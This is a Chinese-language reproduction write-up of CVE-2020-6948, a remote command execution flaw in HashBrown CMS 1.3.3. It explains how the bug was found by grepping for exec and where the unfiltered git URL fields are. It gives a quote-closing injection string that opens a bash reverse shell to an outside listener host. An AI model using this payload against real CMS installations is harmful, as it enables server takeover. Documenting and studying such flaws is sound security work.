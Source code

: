 （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
===============================================

一、漏洞简介
------------

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS
1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

HashBrown CMS 1.3.3

三、复现过程
------------

在之前收集的资料里面总结了发现漏洞基本有三个方法：

-   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。<https://github.com/wireghoul/graudit>
    这个项目就罗列了很多语言的关键词可以用作参考。

-   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。

-   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown
CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep
之后发现了下面的结果。

![](resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId25.png)

看来这个应用使用git 相关命令，如果可以传入url
参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js
文件查看源代码。

![](resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId26.png)

其中可以看到url由username，password，和repro
几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

    https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1

配置如下：

![](resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId27.png)

然后点击media菜单触发git命令执行

![](resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId28.png)

接下来在监听的机器上就可以获得shell了

![](resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId29.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j>
